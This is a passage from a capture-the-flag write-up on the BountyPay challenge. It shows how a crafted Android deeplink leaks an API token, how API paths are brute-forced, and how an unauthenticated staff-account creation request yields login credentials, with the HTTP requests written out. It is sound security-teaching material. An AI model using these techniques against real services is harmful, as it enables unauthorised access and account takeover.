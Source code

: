 ``` 
So after passing the deeplink via adb "three://part?three=UGFydFRocmVlQWN0aXZpdHk=\&switch=b24=\&header=X-Token"
we can observe the adb logact throws us 

```
HOST IS: : http://api.bountypay.h1ctf.com
TOKEN IS: : 8e9998ee3137ca9ade8f372739f062c1
HEADER VALUE AND HASH : X-Token: 8e9998ee3137ca9ade8f372739f062c1
```
After entering the hash 8e9998ee3137ca9ade8f372739f062c1 we get get congratsActivity which says information leaked here will help in other areas 
{F853443}
# 5. Accessing new employee account
{F853469}

After getting the X-Token and hostname it was clear that this was used for api.bountypay.h1ctf.com	we had to guess the path with the token so i made a bunch of wordlists based on website such as api,staff,software,admin,app etc and vai intruder bruteforced in this way api.bountypay.h1ctf.com/guesslist/guesslist  with X-Token in header after this i observed that the request 
```
GET /api/staff/ HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
``` 
was able to fetch 

```
[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
``` 
but this was something already known for second account and with no login details further this was not much of use at this point on Hackerone Twitter handle which was 	BountyHQ twitter handle which tweeted about their employee Sandra Allison who had put their batch picture which revealed their id 
```
STF:8FJ3KFISL3
``` 
now the GET request was not able to fetch/send this info and get something i tried the post request but the response came back as ["Missing Parameter"] so looking upon the above get request we can see that parameter was staff_id so i tried sending it in a post request as ```staff_id=STF:8FJ3KFISL3``` and the response was her credentials

```
{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```


# 6. Upgrading account privilages to admin and getting admin credentials
{F853471}
Upon logging in as sandra we do not get much thigs to see around apart from settings ticket and homepage the website had an interseting file which was 
https://staff.bountypay.h1ctf.com/js/website.js the file had 2 functions of upgrading user to admin and reporting the url/page now sandra account would not be able to 
directly call the first function as she does not have the rights but the second function was interesting sendReport was available for sandra also it would make the #tab1  triggers element class tab1 
{F853459}
```
